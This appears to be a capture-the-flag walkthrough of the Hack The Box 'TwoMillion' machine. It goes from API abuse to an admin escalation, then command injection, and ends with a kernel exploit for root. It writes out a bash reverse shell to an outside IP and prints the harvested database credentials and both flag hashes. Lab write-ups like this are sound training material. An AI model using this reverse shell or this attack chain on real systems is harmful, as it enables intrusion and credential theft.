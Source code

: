 # Network
There are two `TCP` ports are open
	22 : ssh is running and not vulnerable to Rce
	80 : on 80 `2million.htb` is hosted which is old version of HTB
# Web
There is old version of htb is running on port 80
Nothing special found on home page except `JOIN NOW` page which is redirecting us to `/invite` page
	
 ![Screenshot from 2023-09-22 10-25-05](https://github.com/iammR0OT/HTB/assets/74102381/497c590a-68f8-4eba-bb49-02497ee743ef)

On invite page it is asking about some kind of `invite code` which we didn't have any
	
 ![Screenshot from 2023-09-22 10-26-22](https://github.com/iammR0OT/HTB/assets/74102381/1bf0dea8-f336-40a0-8c27-88629a9a8964)

Lets check the source code of it and the network tab that which files is it requesting while loading the page
In source code we found interesting file path called `/js/inviteapi.js`
	
 ![Screenshot from 2023-09-22 10-29-47](https://github.com/iammR0OT/HTB/assets/74102381/1082a6cb-8141-4135-b8e9-21c538f92969)

There are some functions present in this file
	
 ![Screenshot from 2023-09-22 10-31-38](https://github.com/iammR0OT/HTB/assets/74102381/f8d2a165-6d72-4d5c-930b-00b09b422c93)

Lets beautify the JS code using `jsbeautifier`
We found two function in that code 
	one is for **verifyInvideCode** which is probably taking the invite code and checking it on server side if it is valid or not
	and the second one is **makeInviteCode** which is requesting `/api/v1/invite/how/to/generate` api and creating a invitation code  
	
 ![Screenshot from 2023-09-22 10-32-57](https://github.com/iammR0OT/HTB/assets/74102381/9780e2c6-43cf-4341-ba0f-2c7de00cca98)

Lets hit this api and check if it allow us to generate code without any authentication
We will use `curl` and `jq` 
	Curl for making POST request and jq for josn data reading it is basically json parser
	We will use command `curl -X POST "http://2million.htb/api/v1/invite/how/to/generate" | jq .`
	We got some Encrypted data and the encryption type which is `ROT13`
	
 ![Screenshot from 2023-09-22 10-42-22](https://github.com/iammR0OT/HTB/assets/74102381/6bdca938-6798-435c-8cfd-c4742a965339)

After decryption we get a path saying that to it generate a key we have to request to `/api/v1/invite/generate` api
	
 ![Screenshot from 2023-09-22 10-44-13](https://github.com/iammR0OT/HTB/assets/74102381/cb2fc858-98b3-438f-9716-8d0476d348f0)

After requesting we got a session cookie base64 encoded, after decoding that we found a valid invite code `396E7-KEQJT-2896J-C7UC7`
	
 ![Screenshot from 2023-09-22 10-47-43](https://github.com/iammR0OT/HTB/assets/74102381/55fa964d-8210-4732-83fc-e170417ea29e)

Now we have Invite code lets insert code and found what's next
We found Registration page, Lets register as a admin user
	
 ![Screenshot from 2023-09-22 10-50-32](https://github.com/iammR0OT/HTB/assets/74102381/5561b551-48a4-4832-8642-0330752aa4ae)

Now we login as a admin user, let see what things we can do here
Wo here are 3 pages that we can look at
	/changelog
	/rule
	/access
	
 ![Screenshot from 2023-09-22 11-13-58](https://github.com/iammR0OT/HTB/assets/74102381/b73b0f2d-c2fb-4bb4-a552-33e1598f261b)

In access page there is vpn regenerate functionality which is requesting `/api/v1/user/vpn/regenerate` to regenerate vpn
Lets look at this in burpsuite
When we test the api and move back to the directory one by one we discover some endpoints in `/api/v1` 
	
 ![Screenshot from 2023-09-22 11-19-00](https://github.com/iammR0OT/HTB/assets/74102381/f074a18a-0131-4592-9048-94ed48d0b868)
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/0b8cbf2c-fb9c-4b54-a43b-4b571c37231f)

There are 3 interesting endpoints
	api/v1/admin/settings/update
	api/v1/admin/auth
	api/v1/admin/vpn/generate
Lets request to `api/v1/admin/settings/update`
We update the our simple user to admin using `/api/v1/admin/settings/update` endpoint
	I face some errors like
		**Invalid content type**: i resolve this by changing the **Content-Type:** header to **application/json** which means the the content will be in the form of json
		**Missing parameter email**: i resolve this by adding {"email":"admin@gmail.com"} which is email account i used to login as a user on machine
		**Missing parameter is_admin**: I resolve this by adding {"is_admin":1} which means it is an admin account
	
 ![Screenshot from 2023-09-22 11-38-32](https://github.com/iammR0OT/HTB/assets/74102381/77119d9c-e915-4479-b13f-7f156039637c)

	Using curl
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/71dea82b-1454-48d7-9390-ca3b7327a0e6)

Now successfully our user becomes an admin on the machine 
Lets look at the `/api/v1/admin/vpn/generate`, which is generating vpn for admin user 
	While requesting that endpoint i face an error that the username parameter is missing. so i resolve this by adding` {"username":"admin"}`
And its generating vpn maybe there will be a bash command is running in the background 
Lets try to command injection in this
I found a successful command injection in the vpn generator field
	
 ![Screenshot from 2023-09-22 11-58-09](https://github.com/iammR0OT/HTB/assets/74102381/c70407e0-7fc2-40a9-9e90-4e3fce62b036)

# User found
Now we found command injection in password generator field lets try simple reverse shell in it  
	`bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'`
	We got a shell
		
  ![Screenshot from 2023-09-22 12-04-22](https://github.com/iammR0OT/HTB/assets/74102381/2c18f914-dce5-4443-a82e-8664acfa4f8b)

	Wet make a shell stable using tty shell
		`python3 -c 'import pty;pty.spawn("/bin/bash")'`
		Using **CTRL+Z** making it background process and the using `stty raw -echo;fg` to make it foreground now whenever we need shell back we simply write this. this will get our shell back
		
  ![Screenshot from 2023-09-22 12-12-36](https://github.com/iammR0OT/HTB/assets/74102381/99390556-2e3e-49d0-b334-55dc29095ac4)

		Then `**export TERM=xterm**`
Now we login as WWW-data but we didn't have user shell lets enumerate the machine
After some enumeration i found file called database.php lets look into it if we found any database credentials in it
We found that mysql is running from that file
In **.env** file i found database credentials

![Screenshot from 2023-09-22 12-19-09 1](https://github.com/iammR0OT/HTB/assets/74102381/753114ae-4f03-4cb7-83d4-883da6684e78)

	DB_USERNAME=admin
	DB_PASSWORD=SuperDuperPass123
Now we have credentials lets try to login using ssh if that incorrect we will enumerate mysql database and we successfully login into **admin user** account
	
 ![Screenshot from 2023-09-22 12-21-44](https://github.com/iammR0OT/HTB/assets/74102381/5eb9d856-0114-4906-8d7e-9579b464f271)

Lets capture the user flag
	user = **6d7227a1f473d6204ea181aa99bc41e2**
# Privesc
Lets move to the privesc part
Lets enumerate the whole file system and find out what files are accessible by user admin 
	`find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'` to check files except run folder, proc folder and sys folder
I found that there is a mail file accessible by admin user
	
 ![Screenshot from 2023-09-22 12-45-09](https://github.com/iammR0OT/HTB/assets/74102381/4586d010-f440-4a07-91d2-d2e3190b4b84)

The email is telling to admin that the kernel is outdated and vulnerable to **OverlayFS / FUSE**

![Screenshot from 2023-09-22 12-46-49](https://github.com/iammR0OT/HTB/assets/74102381/4928166f-f540-4fc8-bb5e-b477c06d1af0)

Lets explore it
It is kernel level exploit we just need to run cve files and it will give us root shell
	[refrence](https://github.com/xkaneiki/CVE-2023-0386/tree/main)
Root = **ef3883404d27fcad5ab69a9138eeeb64**

# Happy Hacking ❤
